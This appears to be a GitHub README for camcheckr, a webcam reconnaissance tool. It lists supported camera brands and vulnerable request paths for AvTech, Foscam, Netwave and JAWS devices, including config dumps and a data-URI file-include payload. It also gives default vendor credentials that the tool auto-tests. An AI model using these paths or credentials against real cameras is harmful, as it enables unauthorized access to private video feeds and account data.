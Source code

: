 # camcheckr

Tool for Reconnaissance on a webcam.

### Use

>	 python3 camcheckr.py -u http://url/   
 
	usage: camchecker.py [-h] [-u URL]   
	optional arguments:  
	-h, --help  show this help message and exit  
	-u URL      URL to scan [required] 

![cam](https://user-images.githubusercontent.com/29504335/103356313-def17e00-4ab0-11eb-9d60-06cf9c2919fc.PNG)

### Features:

- [x] Display default password of the camera    
- [x] Exploit different vulnerabilities (without impact the camera)   
- [x] Multiple websites/IPs     

### TODO

- [ ] Multi threading
- [ ] Check camera in cvedetail
- [~] Known exploit (without impact the camera)
- [~] Auto test default password of the camera

### Cameras

Today the tool support

>
	Hikvision  
	AVTECH   
	Geovision   
	Dahua Storm   
	AXIS   
	INSTAR   
	MOBOTIX   
	Ossia (Provision SR)   
	Trendnet  
	JAWS Web Server  
	D-Link   
	Vivotek  
	INSTAR Full-HD  
	Bosch Security Systems  
	motionEye  
	Netwave  
	Netcam  
	FOSCAM   
	Domoticz     
	Bbox   
	Jeedom   
	TAS-Tech   

>

### Vulnerabilities

Today the tool found and can exploit these vulnerabilites

>
	[Netcam]   
	- /anony/mjpg.cgi  
	[Netwave]   
	- //proc/kcore  
	[AvTech]   
	- cgi-bin/nobody/Machine.cgi?action=get_capability   
	- cgi-bin/user/Config.cgi?.cab&action=get&category=Account.*   
	- cgi-bin/user/Config.cgi?/nobody&action=get&category=Account.*   
	[TAS-Tech]   
	- user.html   
	[Foscam]
	- tmpfs/config_backup.bin
	- tmpfs/config_restore.bin
	- tmpfs/ddns.conf
	- tmpfs/syslog.txt
	- log/syslog.txt
	[JAWS]
	- jaws/libraries/pear/MDB2.php?file_name=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==  
    - jaws/libraries/pear/MDB2.php?file_name=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==   
    - jaws/libraries/pear/Services/Weather.php?service=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==   
    - jaws/libraries/pear/SOAP/Transport.php?transport_include=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==   
    - jaws/libraries/pear/Crypt/RSA/MathLoader.php?class_filename=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==   

>

### Default credentials

Today the tool auto check these defaults credentials

>
	Avtech :
		- admin:admin
    HikVision: 
    	- admin:12345
    Geovision: 
    	- admin:admin